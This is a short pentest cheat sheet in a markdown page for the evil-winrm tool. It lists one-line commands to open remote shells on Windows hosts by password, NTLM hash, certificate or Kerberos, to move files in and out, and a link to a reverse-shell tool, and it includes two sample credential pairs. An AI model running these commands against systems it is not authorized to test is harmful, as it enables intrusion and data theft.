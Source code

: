 ```yaml
---
title: "Evil WinRm"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


- Connect with creds:
```sh
evil-winrm  -i $t -u Caroline.Robinson -p 'Pentest_123456789'
```

- Connect with a hash:
```sh
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -H <NTLM_HASH>
```

- Connect with a certificate:
```sh
evil-winrm -i <IP_ADDRESS> -S -c <CERTIFICATE_FILE> -k <KEY_FILE>
```

+ Connect with Kerberos authentication:
```sh
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -r <DOMAIN> -k
```

- Upload a file:
```sh
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH>
```

- Download a file:
```sh
download <REMOTE_FILE_PATH> <LOCAL_FILE_PATH>
```

- Connect with a certificate : 
```sh
evil-winrm -S -i 10.10.10.103 -u amanda -p Ashare1972 -c certnew.cer -k private.key
```
- Interactive shell : 
https://github.com/antonioCoco/ConPtyShell
